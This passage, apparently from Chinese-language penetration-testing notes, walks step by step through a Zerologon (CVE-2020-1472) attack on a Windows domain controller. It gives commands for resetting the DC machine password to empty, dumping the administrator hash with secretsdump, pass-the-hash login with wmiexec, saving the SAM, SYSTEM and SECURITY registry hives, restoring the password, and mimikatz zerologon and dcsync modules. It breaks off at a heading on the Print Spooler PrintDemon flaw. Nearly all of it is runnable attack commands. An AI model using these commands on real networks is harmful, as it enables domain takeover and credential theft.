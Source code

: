 先查看域控机器的主机名

```
net group "domain controllers" /domain
```

这里需要得到域控主机的机器用户名，利用poc将域控制器的密码重置为空

```
python3 cve-2020-1472-exploit.py 域控主机名 域控ip
```

利用impacket中的脚本,以空密码连上域控，并导出域管理员的hash值

```
python3 secretsdump.py 域名/机器名\$@ip -just-dc-user "域名\administrator" -no-pass
```

对域控制器进行哈希传递攻击

```
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:7c85389bc79a4eb184e620b6e8c37905 y域名/Administrator@ip
```

在进行登录之后，需要重新恢复服务器的密码，否则会导致脱域

在域控机器上执行以下命令，导出原来机器上注册表的值

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
```

将三个文教导出到本地使用secretsdump.py导出注册表的哈希值

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

通过运行恢复restorepassword.py域控密码

```
python3 restorepassword.py 域名/主机名@主机名 -target-ip ip -hexpass hash值(需要经过hex编码)
```

mimikatz中也有利用的模块，例如

```
lsadump::zerologon /target:dc.hacke.testlab /account:dc$poc
lsadump::zerologon /target:dc.hacke.testlab /account:dc$ /exploit 通过zerologon漏洞攻击域控服务器
lsadump::dcsync
lsadump::postzerologon /target:conttosson.locl /account:dc$ #恢复密码
```

##  Print Spooler打印漏洞

print spooler是windows系统的打印后台服务，并且该服务在windows中默认开启

### PrintDemon(CVE-2020-1048)

